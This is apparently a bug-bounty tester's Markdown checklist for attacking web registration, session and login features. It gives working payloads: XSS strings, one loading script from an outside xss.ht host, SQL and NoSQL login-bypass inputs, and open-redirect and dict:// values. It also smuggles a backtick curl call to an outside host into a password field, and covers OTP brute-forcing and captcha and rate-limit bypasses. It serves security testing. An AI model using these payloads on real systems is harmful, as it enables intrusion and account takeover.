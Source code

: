 ## Registration Feature Testing
- [ ] check for duplicate registrationoverwrite existing user
- [ ] Check for weak password policy
- [ ] Check for reuse existing username
- [ ] weak registration implementation-Allows disposible email addresses
- [ ] Weak registration implementation-Over HTTP
- [ ] Overwrite default web application pages by specially crafted username registrations. ⇒ After registration, does 
		 your profile link appears something as www.tushar.com/tushar?
		 **For testing:** Enter website link.
----------

- [ ] Duplicate registration / Overwrite existing user [[testforduplicateuser]]
- [ ] DOS at Name/Password field in Signup Page. [[testfordospass]]
- [ ] XSS in Email field: `"><svg/onload=confirm(1)>"@xy.com`
- [ ] No rate limit at signup page. [Report](https://hackerone.com/reports/1245529)
- [ ] Insufficient Email Verification [[testforiev]]
- [ ] Registration form on non-HTTPs.
- [ ] Allows disposable mail addresses.
- [ ] Check if application allows easily guessable passwords 123456
- [ ] Check if you can use username same as that of email addresses.
- [ ] check if you can user same password as email.
- [ ] improperly implemented password recovery policy.
- [ ] 

## Session management
- [ ] identify actual session cookie out of bulk cookies in the application.
- [ ] Decode cookies using some standard algo base64, hex, url,etc
- [ ] Modify cookie.session token by 1bit/byte. Then resumbmit and do the same for all tokens. Reduce the amount of work you need to perform in order to identify which part of the token is actually being used and which is not.
- [ ] Check for session cookies and cookie expiration date/time.
- [ ] Identify cookie domain scope
- [ ] Check for HttpOnly flag in cookie
- [ ] Check for Secure flag in cookie if the application is over SSL.
- [ ] Check for session fixation i.e value of session cookie before and after authentication.
- [ ] Replay the session cookie from a diferent effective IP address or system to check whether the server maintains the satate of the machine or not.
- [ ] check for the concurrent login through different machine/IP
- [ ] check if any user pertainig information is stored in cookie value or not if yes, tamper it with other users data.
- [ ] Failure to invalidate Session on (Email Change, 2FA activation)


## Cases to test for
- [ ]  Test for BSQLi identification without getting detected by WAF - 
	- ![](https://pbs.twimg.com/media/D1Dv6nQW0AAFWnG?format=png&name=small)


- [ ] Value overwrite of parameter `nameOfparameter[]` in Email or Password
	- ![](https://i.imgur.com/r9jDgQu.png)

- [ ] Json request?
	- [ ] Input multiple username to cause error
		- {"email":\["userOne","userTwo"\],"password":****}

- [ ] **Login Bypass**
	- [ ] Insert `\` or `||1#` as Email and password
	- [ ] Inset "--" or '--' in Email OR password to bypass auth.
		- username: '--' or "--" 
		- password: '--' or "--"

	- [ ] Insert `[%24ne]` in Email and Password
	- [ ] Insert `&gt` in Password and change Content-Type Header to `application/json`
	- [ ] Insert `_all_docs` or `user[]=_all_docs` in user parameter with undefined password

- [ ] **XSS in Login page**
	- [ ] Try `%20onfocus%3djavascript:alert(%27xss%27)%20autofocus%20a=a` in Email parameter.
	- [ ] Insert 50,000+ Charaters or Numbers in **Email** or **Password** to expose sensitive errors exposing sensitive information.
	- [ ] `><script src=//me.xss.ht></script>`
	- [ ] `><img src=//me.xss.ht>`
	- [ ] For the Path try appending `!'><svg/onload=alert('XSS')>` in the Path ex: `https://example.com/login?!'><svg/onload=alert('XSS')>`
- [ ] **XML request?**
	- [ ] Insert XML payload instead of request
		- ![](https://i.imgur.com/p82Iich.png)

- [ ] **SQLi in Login page**
	- [ ] Insert SQLi payloads e.g: 
		- `";WAITFOR DELAY '0.0.20'--`
		- `'/**/or/**/abc!=` in username and password
	- [ ] Insert SQLi payloads e.g
		- `'AND '1'='2`
		- `";WAITFOR DELAY '0.0.20'--`
		- Test them in non standard headers like: X_Forwarded-Host:

- [ ] Open Redirection
	- [ ] If there is `nextURL=` parameter then try:
		- http:3627732462
		- https://www.google.com%ff@www.company.com
		- Other Open Redirect payloads (VikeyLi open redirect) [[NPM Packages vulnerabilties]]
		- For the **same parameter** try `lol';alert(document.domain)//lol` for DOM based XSS
		- At LogOut , Add `dict://me.com:80` 
			- `GET /logout?logout_path=dict://me.com:80 HTTP/1.1`

- [ ] **Remote Code Execution**
	- [ ] Curl as a part of Login
		- ```email=me&password=*****&`curl me.com```

- [ ] Account Takeover
	- [ ] Try valid password and username and then try bruteforce OTP code
	- [ ] Abe to login via OTP? Try changing your email address to someone else email address for ATO
- [ ] Rate Limit
	- [ ] Try To Do **Brute Force By Using IP Rotate Burp Suite Extension** OR **Fireprox To Bypass Rate Limits** That Based On Blocked IP
		- https://www.youtube.com/watch?v=it_V3ig1_4o
	- [ ] Insert `X-Forward-For` or same for two times.
		- ![](https://i.imgur.com/2wK6VSd.png)



- [ ] Captcha Bypass
	- [ ] Change `GET` to `POST`
	- [ ] Remove Captcha parameter
	- [ ] Reuse the Old-captcha
	- [ ] Change `JSON body to Normal Body` and `application/json to application/x-www-form-urlencode` respectively.
	- [ ] Use Non-standard headers
		- ![[login captcha bypass.png]]
	- [ ] If Comany uses `Captcha Image Contains Text` try to Use `Convert Command` AND `Tesseract tool` to extract the Text from the Image.
		1. Download Image
		2. Use command `convert img.png -colorspace gray -threshold 50% imgOUT.png` 
		3. Use command `tesseract imgOUT.png`

- [ ] Do they use http at login portal?
- [ ] Check if the session will expier after logout or not?
- [ ] Privilege escalation
	- **Have 2 different user accounts, one low privileged user and other one with some level of permissions**
	- **Catch the request in BURPSUITE, throw them into a “Repeater tab” replace the cookies of a high level privileged user with low level privileged user, see if it’s a success!**

- [ ] 